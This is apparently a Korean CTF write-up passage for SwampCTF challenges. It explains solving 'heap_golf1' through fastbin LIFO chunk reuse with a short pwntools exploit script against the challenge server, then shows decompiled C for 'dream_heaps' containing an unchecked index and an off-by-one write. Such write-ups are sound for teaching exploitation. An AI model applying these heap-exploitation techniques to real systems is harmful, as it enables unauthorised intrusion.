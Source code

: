 음.. 엄청 쉬운건데 사실 이걸 dream_heap보다 늦게 풀었다 흑흑 

그저 fastbin의 LIFO 구조를 이용한 걸로.. malloc을 할당하면 인덱스마냥 값을 채워주는데 맨 처음 chunk에 4가 입력되어있으면 플래그를 출력해준다.. 말 그대로 LIFO기 때문에 chunk 4개 생성하고 free해주고 다시 4개 생성하면 된다.

```python
from pwn import *

#t = process('./heap_golf1')
t = remote('chal1.swampctf.com',1066)
#pause()

for _ in range(4):
	t.recvuntil(":")
	t.sendline("32")

t.recvuntil(":")
t.sendline("-2")

for _ in range(4):
	t.recvuntil(":")
	t.sendline("32")

t.interactive()
```





# dream_heaps

```c
unsigned __int64 edit_dream()
{
  int index; // [rsp+8h] [rbp-18h]
  int size; // [rsp+Ch] [rbp-14h]
  void *buf; // [rsp+10h] [rbp-10h]
  unsigned __int64 v4; // [rsp+18h] [rbp-8h]

  v4 = __readfsqword(0x28u);
  puts("Which dream would you like to change?");
  index = 0;
  __isoc99_scanf("%d", &index);
  if ( index <= INDEX )
  {
    buf = (void *)HEAP_PTRS[index];
    size = SIZES[index];
    read(0, buf, size);
    *((_BYTE *)buf + size) = 0;
  }
  else
  {
    puts("You haven't had this dream yet...");
  }
  return __readfsqword(0x28u) ^ v4;
}
```
